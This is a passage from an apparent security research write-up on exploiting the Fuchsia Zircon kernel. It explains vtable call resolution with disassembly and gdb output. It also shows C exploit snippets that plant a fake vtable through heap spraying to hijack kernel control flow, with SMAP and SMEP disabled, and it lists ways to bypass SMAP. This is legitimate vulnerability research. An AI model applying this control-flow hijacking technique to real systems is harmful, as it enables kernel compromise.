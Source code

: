 ```
  mov    rax,QWORD PTR [r13+0x0]
  movsxd r11,DWORD PTR [rax+0x8]
  add    r11,rax
  mov    rdi,r13
  call   0xffffffff0031a77c <__x86_indirect_thunk_r11>
```

Here the `r13` register stores the address of the `TimerDispatcher` object. The vtable pointer resides at the beginning of the object. So after the first `mov` instruction, the `rax` register stores the address of the vtable itself. Then the `movsxd` instruction moves the value `0xffdcb5a4ffe00454` from the vtable to the `r11` register. But `movsxd` also sign-extends this value from a 32-bit source to a 64-bit destination. So `0xffdcb5a4ffe00454` turns into `0xffffffffffe00454`. Then the vtable address is added to this value in `r11`, which forms the address of the `TimerDispatcher` method:

```
(gdb) x $r11
0xffffffff001bd570 <_ZNK15TimerDispatcher8get_typeEv>:	0x000016b8e5894855
```

# Fake vtable for the win

Despite this weird pointer arithmetics in Zircon vtables, I decided to craft a fake `TimerDispatcher` object vtable to hijack the kernel control flow. That led me to the question of where to place my fake vtable. The simplest way is to create it in the userspace. However, Zircon on `x86_64` supports `SMAP` (Supervisor Mode Access Prevention), which blocks access to the userspace data from the kernelspace.

> In my [Linux Kernel Defence Map](https://github.com/a13xp0p0v/linux-kernel-defence-map), you can see SMAP among various mitigations of control-flow hijacking attacks in the Linux kernel.

I saw multiple ways to bypass `SMAP` protection by placing the fake vtable in the kernelspace.
  1. For example, Zircon also has `physmap` like the Linux kernel, which makes the idea of the `ret2dir` attack for Zircon very promising.
  2. Another idea was to use a kernel log infoleak of some kernel address that points to the data controlled by the attacker.

But to simplify my first security experiment with Fuchsia, I decided to disable `SMAP` and `SMEP` in the script starting QEMU and create the fake vtable in my exploit in the userspace:

```c
#define VTABLE_SZ 16
unsigned long fake_vtable[VTABLE_SZ] = { 0 }; // global array
```

Then I made the exploit use this fake vtable in the heap spraying data that overwrite the `TimerDispatcher` object:

```c
#define DATA_SZ 512
  unsigned char spray_data[DATA_SZ] = { 0 };
  unsigned long **vtable_ptr = (unsigned long **)&spray_data[0];

  // Control-flow hijacking in DownCastDispatcher():
  //   mov    rax,QWORD PTR [r13+0x0]
  //   movsxd r11,DWORD PTR [rax+0x8]
  //   add    r11,rax
  //   mov    rdi,r13
  //   call   0xffffffff0031a77c <__x86_indirect_thunk_r11>

  *vtable_ptr = &fake_vtable[0]; // address in rax
  fake_vtable[1] = (unsigned long)pwn - (unsigned long)*vtable_ptr; // value for DWORD PTR [rax+0x8]
```


[0]: 0xffdffe64ffdffd24
[1]: 0xffdcb5a4ffe00454
[2]: 0xffdffea4ffdc7824
[3]: 0xffd604c4ffd519f4